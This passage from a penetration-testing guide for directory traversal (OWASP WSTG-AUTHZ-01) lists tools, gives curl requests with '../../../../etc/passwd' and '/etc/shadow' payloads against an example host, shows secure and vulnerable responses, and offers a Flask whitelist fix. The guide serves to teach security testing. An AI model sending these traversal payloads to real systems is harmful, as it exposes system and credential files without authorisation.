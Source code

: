 - **grep**: Searches source code for unsafe file operations (gray-box testing).
  - Install on Linux: Pre-installed.
  - Install on Windows: Use Git Bash or WSL.

- **Python with Requests**: Automates traversal and inclusion testing.
  - Install: `pip install requests`.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-AUTHZ-01, enhanced with automation, WAF evasion, post-exploitation, and exploit chaining for comprehensive testing.

### 1. Test Basic Directory Traversal via Query Parameter with cURL

**Objective**: Ensure query parameters cannot be used to access unauthorized files via directory traversal.

**Steps**:
1. Identify a file parameter in the application (e.g., `item` in `getUserProfile.jsp`).
2. Test traversal by requesting a sensitive file:
   ```bash
   curl -i "http://example.com/getUserProfile.jsp?item=../../../../etc/passwd"
   ```
3. Test with a different sensitive file:
   ```bash
   curl -i "http://example.com/getUserProfile.jsp?item=../../../../etc/shadow"
   ```
4. Analyze responses; expected secure response blocks the request with an error.

**Example Secure Response**:
```
HTTP/1.1 403 Forbidden
Content-Type: text/html
<h1>Access Denied</h1>
<p>You are not authorized to access this resource.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

**Remediation**:
- Whitelist file names (Python/Flask):
  ```python
  @app.get('/get_file')
  def get_file():
      filename = request.args.get('item')
      allowed_files = ['profile.html', 'settings.html']
      if filename not in allowed_files:
          return jsonify({'error': 'Invalid file'}), 403
      return send_file(f'Uploads/{filename}')
  ```
